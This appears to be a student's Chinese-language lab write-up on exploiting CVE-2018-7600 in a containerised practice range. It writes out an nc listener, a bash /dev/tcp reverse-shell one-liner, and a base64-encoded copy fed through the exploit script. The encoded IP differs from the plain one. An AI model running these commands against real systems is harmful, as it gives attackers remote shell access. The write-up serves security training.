 # 第三章：基于容器技术的渗透测试靶场环境构建
## 实验一：使用反弹Shell利用CVE-2018-7600
### 步骤一
* **构建可以接受外部传入利用命令的 Python 利用代码**
    编写要求的py代码
    ![pycode](./img_7/写py.png)
### 步骤二
* **基于上述利用代码，完成漏洞存在性证明**
执行如下下代码`python3 exp.py 127.0.0.1 8080 "id"`,得到的运行结果如图所示
![py](./img_7/运行结果.png)
### 步骤三  
* **基于 bash 重定向完成反弹 Shell**
 1. 在你的kali中，使⽤nc监听⼀个端⼝
`nc -lvvp 2333`

![bash](./img_7/步骤3-1.png)

2. 将执⾏的命令转换为 base64

`echo 'bash -i >& /dev/tcp/192.168.56.101/2333 0>&1' | base64`

![bash](./img_7/生成base64.png)

3. 打开⼀个新终端，利⽤PoC脚本完成反弹Shell
    使用之前的base64继续进行操作
  ```
  python3 exp.py 127.0.0.1 8080 "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTMuMTY4LjU2LjEwMS8yMzMzIDA+JjEK' |   base64 -d | bash -i"
```
![bash](./img_7/实现.png)